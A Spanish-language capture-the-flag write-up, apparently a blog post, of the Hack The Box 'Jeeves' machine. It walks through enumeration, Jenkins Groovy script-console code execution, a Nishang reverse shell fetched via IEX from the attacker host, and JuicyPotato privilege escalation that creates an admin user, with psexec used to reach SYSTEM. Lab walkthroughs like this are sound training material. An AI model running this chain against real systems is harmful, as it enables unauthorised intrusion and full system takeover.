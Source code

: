 ```yaml
---
layout: post
title: HTB_Jeeves
date: 2023/07/10
slug: HTB_Jeeves
heroImage: /assets/machines.jpg
---
```


# Jeeves {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se llama Jeeves.

El replay del live se puede ver aqui

[![S4vitaar Jeeves maquina](https://img.youtube.com/vi/-o1c3s1QKUg/0.jpg)](https://www.youtube.com/watch?v=-o1c3s1QKUg)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.63
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.63
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.63 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 80     | http     | Web, Fuzzing       |            |
| 135    | msrpc    |                    |            |
| 445    | smb      | Null session       |            |
| 50000  | http     | Web, Fuzzing       |            |

### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.63
smbclient -L 10.10.10.63 -N
smbmap -H 10.10.10.63 -u 'null'
```

Solo hemos podido comprobar que estamos frente a una maquina windows 10 pero poco mas.

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.63
```

Estamos en frente de un IIS

#### Analyzando la web con Firefox {-}

Vemos una pagina de busqueda typo Google.

Buscando en internet vemos una routa potencial que seria 
```bash
 /askjeeves/ 
```
 pero no nos da en este caso

Intentamos ver lo que hay en el puerto **50000** y tenemos un 404. Si le ponemos el 
```bash
 /askjeeves/ 
```
, llegamos en 
un panel de administration de Jenkins.



## Vulnerability Assessment {-}

### Vulnerabilidad Jenkins {-}

Teniendo accesso al panel de administracion de Jenkins es un problema ademas si hay en el menu el boton Administrar Jenkins.
Aqui es el caso.

Pinchamos a Administrar Jenkins y despues le damos a Consola de scripts.

Aqui podemos crear Groovy script

```bash
command = "whoami"
println(command.execute().text)
```

Si ejecutamos el commando vemos en la respuesta 
```bash
 jeeves\kohsuke 
```
. Vemos con esto que tenemos capacidad de RCE.

## Vuln exploit & Gaining Access {-}

### Ganando accesso con Jenkins Consola de scripts {-}

1. Descargamos Nishang y modificamos el fichero de reverse shell por tcp

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang/Shells
    cp Invoke-PowerShellTcp.ps1 ../../PS.ps1
    cd ../..
    nano PS.ps1
    ```

    Modificamos el fichero PS.ps1 para añadir 
```bash
 Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443 
```
 al final del fichero

1. Compartimos un servicio http con python

    ```bash
    python3 -m http.server 80
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Creamos el Groovy script

    ```bash
    command = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')"
    println(command.execute().text)
    ```

Ya hemos ganado accesso al systema. 
```bash
 whoami 
```
 -> **jeeves\kohsuke**. Ya podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el 
```bash
 SeImpersonatePrivilege 
```
 ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Nos creamos un nuevo usuario con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user s4vitar s4vitar1234$! /add"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators s4vitar /add"
```

Si comprobamos con el commando 
```bash
 crackmapexec smb 10.10.10.63 -u 's4vitar' -p 's4vitar1234$!' 
```
 Vemos que el usuario no esta pwned.
Aqui tenemos que 

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

```bash
impacket-psexec WORKGROUP/s4vitar@10.10.10.63 cmd.exe
Password: s4vitar1234$!

whoami

#Output
nt authority\system

cd C:\Users\Adminstrator\Desktop
dir
type hm.txt
```

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

```bash
dir /r
more < hm.txt:root.txt
```

;)
